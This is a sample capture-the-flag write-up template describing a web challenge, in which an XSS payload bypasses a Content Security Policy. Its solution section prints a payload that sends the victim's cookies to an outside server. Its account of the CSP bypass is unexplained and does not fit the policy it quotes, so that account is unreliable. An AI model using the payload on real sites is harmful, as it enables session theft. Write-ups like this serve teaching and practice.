 ```yaml
---
title: "Sample Writeup with Images"
date: "2025-06-19"
ctf: "Example CTF 2025"
category: "Web"
difficulty: "Medium"
points: 500
tags: ["xss", "javascript", "csp"]
author: "Tham Le"
solved: true
featured: true
banner: "assets/images/banners/sample-banner.jpg"
thumbnail: "assets/images/thumbnails/sample-thumbnail.jpg"
description: "A walkthrough of an interesting XSS challenge that required bypassing a Content Security Policy."
---
```


# Sample Writeup with Images

**Category:** Web  
**Difficulty:** Medium  
**Points:** 500  
**Event:** Example CTF 2025

## Challenge Description

This example shows how to format a writeup with images for the new version of the CTF writeups site.

The challenge asked us to bypass a strict Content Security Policy to execute JavaScript on the admin's browser.

**URL:** https://example-ctf.com/challenge

## Initial Analysis

When we first access the site, we're presented with a simple form that allows us to submit messages that an admin will review.

![Screenshot of challenge homepage](./images/homepage.png)

## Vulnerability Discovery

After inspecting the page, I noticed the Content Security Policy header:

```
Content-Security-Policy: default-src 'self'; script-src 'nonce-random123'
```

This CSP only allows scripts with a specific nonce attribute to execute.

## Exploitation

I discovered that the application was using an outdated library that had an XSS vulnerability. By crafting a special payload, I could bypass the CSP:

```javascript
<svg onload="alert(document.cookie)">
```

![Screenshot of payload execution](./images/payload.png)

## Solution

The final payload looked like this:

```html
<img src="x" onerror="fetch('https://my-server.com/?cookie='+document.cookie)">
```

## Flag

`CTF{th1s_1s_4_s4mpl3_fl4g}`

## Reflection

This challenge taught me the importance of:

1. Understanding CSP bypass techniques
2. Checking for outdated libraries 
3. Being creative with payload delivery

## Additional Resources

- [Content Security Policy Reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
